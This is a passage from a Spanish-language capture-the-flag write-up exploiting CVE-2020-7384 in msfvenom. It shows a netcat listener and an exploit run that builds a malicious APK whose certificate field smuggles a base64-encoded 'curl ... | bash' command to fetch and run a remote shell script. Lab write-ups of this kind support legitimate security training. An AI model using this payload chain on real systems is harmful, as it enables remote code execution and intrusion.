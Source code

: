 En una nueva terminal, nos pondremos en escucha con `nc` para recibir la Reverse Shell.

```basic
❯ nc -nlvp 443
listening on [any] 443 ...
```

Utilizaremos nuevamente el exploit para generar un nuevo archivo `APK` malicioso.

```bash
❯ python3 CVE-2020-7384.py
[+] Manufacturing evil apkfile
Payload: curl http://10.10.14.2/shell.sh|bash
-dname: CN='|echo Y3VybCBodHRwOi8vMTAuMTAuMTQuMi9zaGVsbC5zaHxiYXNo | base64 -d | sh #

  adding: empty (stored 0%)
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.

[+] Done! apkfile is at /tmp/tmp7fwr95xx/evil.apk
Do: msfvenom -x /tmp/tmp7fwr95xx/evil.apk -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null

❯ ls -l /tmp/tmp7fwr95xx/evil.apk
.rw-rw-r-- kali kali 1.9 KB Sun Mar  2 17:19:44 2025  /tmp/tmp7fwr95xx/evil.apk
```

Realizaremos los mismos pasos y subiremos este nuevo archivo `APK` malicioso que hemos generado en el paso anterior.

<figure><img src="../../.gitbook/assets/5281_vmware_LJyAgqDbrR.png" alt=""><figcaption></figcaption></figure>
